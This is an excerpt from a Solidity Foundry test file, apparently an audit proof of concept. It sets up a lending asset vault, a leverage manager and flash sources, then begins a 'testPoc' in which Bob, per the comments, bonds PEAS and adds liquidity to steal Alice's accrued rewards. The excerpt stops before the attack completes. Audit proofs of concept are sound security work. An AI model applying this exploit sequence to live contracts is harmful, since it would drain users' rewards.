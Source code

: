 ```solidity
                    address(_aspTKNMinOracle1Peas), //oracle
                    5000, // maxOracleDeviation
                    address(_variableInterestRate), //rateContract
                    1000, //fullUtilizationRate
                    75000, // maxLtv
                    10000, // uint256 _cleanLiquidationFee
                    9000, // uint256 _dirtyLiquidationFee
                    2000 //uint256 _protocolLiquidationFee
                )
            )
        );
    }

    function _deployLendingAssetVault() internal {
        _lendingAssetVault = new LendingAssetVault("Test LAV", "tLAV", address(_mockDai));
        IERC20 vaultAsset1Peas = IERC20(_fraxLPToken1Peas.asset());
        vaultAsset1Peas.approve(address(_fraxLPToken1Peas), vaultAsset1Peas.totalSupply());
        vaultAsset1Peas.approve(address(_lendingAssetVault), vaultAsset1Peas.totalSupply());
        _lendingAssetVault.setVaultWhitelist(address(_fraxLPToken1Peas), true);

        address[] memory _vaults = new address[](1);
        _vaults[0] = address(_fraxLPToken1Peas);
        uint256[] memory _allocations = new uint256[](1);
        _allocations[0] = 100_000e18;
        _lendingAssetVault.setVaultMaxAllocation(_vaults, _allocations);

        vm.prank(timelock);
        _fraxLPToken1Peas.setExternalAssetVault(IERC4626Extended(address(_lendingAssetVault)));
    }

    function _deployLeverageManager() internal {
        _leverageManager = new LeverageManager("Test LM", "tLM", IIndexUtils(address(_indexUtils)));
        _leverageManager.setLendingPair(address(_pod1Peas), address(_fraxLPToken1Peas));
    }

    function _deployFlashSources() internal {
        _uniswapV3FlashSourcePeas = new UniswapV3FlashSource(address(_v3peasDaiFlash), address(_leverageManager));
        _leverageManager.setFlashSource(address(_pod1Peas.PAIRED_LP_TOKEN()), address(_uniswapV3FlashSourcePeas));
    }

    function testPoc() public {
        UniswapV2Pair _v2Pool = UniswapV2Pair(_pod1Peas.DEX_HANDLER().getV2Pool(address(_pod1Peas), address(_mockDai)));
        StakingPoolToken _spTKN = StakingPoolToken(_pod1Peas.lpStakingPool());
        TokenRewards _tokenRewards = TokenRewards(_spTKN.POOL_REWARDS());

        vm.startPrank(alice);
        console.log("\n====== Alice bonds 10_000 PEAS ======"); //Alice bonds 10_000 peas to create fees which then come as rewards in TokenRewards
        _peas.approve(address(_pod1Peas), 10_000e18);
        _pod1Peas.bond(address(_peas), 10_000e18, 0);
        vm.stopPrank();

        vm.startPrank(bob); //Bob sees this and wants to steal the rewards
        console.log("\n====== Bob bonds 1000 PEAS ======");
        _peas.approve(address(_pod1Peas), 1000e18);
        _pod1Peas.bond(address(_peas), 1000e18, 0); //Because Bob, to steal the rewards, needs spTKNs, he first needs to bond his Peas

        console.log("\n====== Bob adds 950 liquidity ======");
```